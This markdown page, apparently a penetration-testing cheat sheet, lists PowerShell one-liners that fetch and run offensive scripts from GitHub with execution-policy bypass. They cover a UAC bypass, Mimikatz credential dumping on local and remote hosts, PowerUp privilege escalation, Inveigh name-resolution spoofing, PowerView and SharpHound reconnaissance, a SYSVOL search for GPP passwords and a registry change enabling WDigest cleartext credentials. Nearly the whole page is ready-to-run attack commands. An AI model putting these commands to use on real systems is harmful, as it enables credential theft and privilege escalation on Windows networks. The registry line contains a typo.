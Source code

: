 ```yaml
---
description: Collection of PowerShell one-liners to use at various stages of testing.
---
```


# One-liners

## Powershell <a href="#invoke-bypassuac-and-start-powershell-prompt-as-administrator-or-replace-to-run-any-other-command" id="invoke-bypassuac-and-start-powershell-prompt-as-administrator-or-replace-to-run-any-other-command"></a>

### Invoke-BypassUAC and start PowerShell prompt as Administrator \[Or replace to run any other command] <a href="#invoke-bypassuac-and-start-powershell-prompt-as-administrator-or-replace-to-run-any-other-command" id="invoke-bypassuac-and-start-powershell-prompt-as-administrator-or-replace-to-run-any-other-command"></a>

```powershell
powershell.exe -exec bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/privesc/Invoke-BypassUAC.ps1');Invoke-BypassUAC -Command 'start powershell.exe'"
```

### Invoke-Mimikatz: Dump credentials from memory

```powershell
powershell.exe -exec bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1');Invoke-Mimikatz -DumpCreds"
```

### Import Mimikatz Module to run further commands

```powershell
powershell.exe -exec Bypass -noexit -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')"
```

### Invoke-MassMimikatz: Use to dump creds on remote host

replace $env:computername with target server name(s)\*\*

```powershell
powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PewPewPew/Invoke-MassMimikatz.ps1');'$env:COMPUTERNAME'|Invoke-MassMimikatz -Verbose"
```

### PowerUp: Privilege escalation checks

```powershell
powershell.exe -exec Bypass -C “IEX (New-Object Net.WebClient).DownloadString(‘https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1’);Invoke-AllChecks”
```

### Invoke-Inveigh and log output to file

```powershell
powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/Kevin-Robertson/Inveigh/master/Scripts/Inveigh.ps1');Invoke-Inveigh -ConsoleOutput Y –NBNS Y –mDNS Y  –Proxy Y -LogOutput Y -FileOutput Y"
```

Invoke-ShareFinder and print output to file

```powershell
powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerView/powerview.ps1');Invoke-ShareFinder -CheckShareAccess|Out-File -FilePath sharefinder.txt"
```

### Import PowerView Module to run further commands

```powershell
powershell.exe -exec Bypass -noexit -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerView/powerview.ps1')"
```

### Invoke-Bloodhound

```powershell
powershell.exe -exec Bypass -C "IEX(New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Ingestors/SharpHound.ps1');Invoke-BloodHound"
```

### Find GPP Passwords in SYSVOL

```powershell
findstr /S cpassword $env:logonserver\sysvol\*.xml findstr /S cpassword %logonserver%\sysvol\*.xml (cmd.exe)
```

### Run Powershell prompt as a different user, without loading profile to the machine

replace DOMAIN and USER\*\*

```powershell
runas /user:DOMAIN\USER /noprofile powershell.exe
```

### Insert reg key to enable Wdigest on newer versions of Windows

```powershell
reg add HKLM\SYSTEM\CurrentControlSet\Contro\SecurityProviders\Wdigest /v UseLogonCredential /t Reg_DWORD /d 1
```

Testing new request
